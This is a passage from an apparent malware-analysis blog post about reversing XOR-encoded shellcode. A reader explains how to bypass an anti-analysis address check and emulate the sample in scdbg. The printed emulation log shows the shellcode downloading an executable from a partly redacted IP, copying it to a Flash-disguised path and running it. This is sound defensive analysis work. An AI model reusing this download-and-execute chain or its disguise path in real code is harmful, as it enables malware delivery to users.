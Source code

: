    A quick test of determining what the actual file is (shown in the second command above) after being reversed shows it's just **data**.  Hm, it doesn't appear to be what I'd expect as a result of the shellcode or did something fail when performing the XOR?  If we view the strings of this data we see it displays a link to a file which could indicate a 2nd stage download:

   ![Second Stage Download]({{ site.url }}/assets/images/blog/{{ page.image_folder }}/2nd_stage_download.png)

3. To figure out why this didn't fully work, a reader (carb0n) left some useful notes:

	It looks like it expects data at a hardcoded address. _dereference_ is meant to hamper analysis.

	<pre>
	seg000:00000021 BB A0 10 10 0C mov ebx, 0C1010A0h
	seg000:00000026 8B 0B mov ecx, [ebx]
	</pre>

	If you nop this in unpacked dump and nop xor decoder you can then run unpacked dump for full analysis in scdbg.

	<pre>
	401063 LoadLibraryA(urlmon)
	401082 LoadLibraryA(shell32)
	4010b7 MultiByteToWideChar(http://62.xxx.xxx.149/public/help/111.exe)
	4010dd URLDownloadToCacheFileW(http://62.xxx.xxx.149/public/help/111.exe, buf=4014e0)
	Opening a valid handle to c:\URLCacheTmpPath.exe
	4010fe CreateFileW(c:\URLCacheTmpPath.exe) = 7ac
	401110 GetFileSize(7ac, 0) = 0
	401148 CreateFileW(c:\URLCbcheTmpPath.exe) = 7a8
	Interactive mode local file C:\DOCUME~1\xxx\Desktop\MOD_31~1.drop_0
	40116d SetFilePointer(hFile=7ac, dist=0, 0, FILE_BEGIN) = 0
	ReadFile error? numBytes=400 bytesRead=0 rv=1
	401198 ReadFile(hFile=7ac, buf=1305f0, numBytes=400) = 1
	4011d6 WriteFile(h=7a8, buf=1305f0, len=0, lpw=401434, lap=0) = 1
	4011e7 CloseHandle(7ac)
	4011f0 CloseHandle(7a8)
	401216 WideCharToMultiByte(0,0,in=4014e0,sz=ffffffff,out=4015f0,sz=100,0,0) = 0
	40122c SHGetSpecialFolderPathA(buf=4016f0, C:\Documents and Settings\xxx\Application Data)
	4012c7 CopyFileA(, C:\Documents and Settings\xxx\Application Data\Macromedia\Flash Player\#SharedO
	bjects\Flash_ActiveX.exe)
	4012dd WinExec(C:\Documents and Settings\xxx\Application Data\Macromedia\Flash Player\#SharedObjec
	ts\Flash_ActiveX.exe)
	</pre>

	Aditionally, there's a new option in `scdbg` just for this type of thing `/va 0c1010a0-4`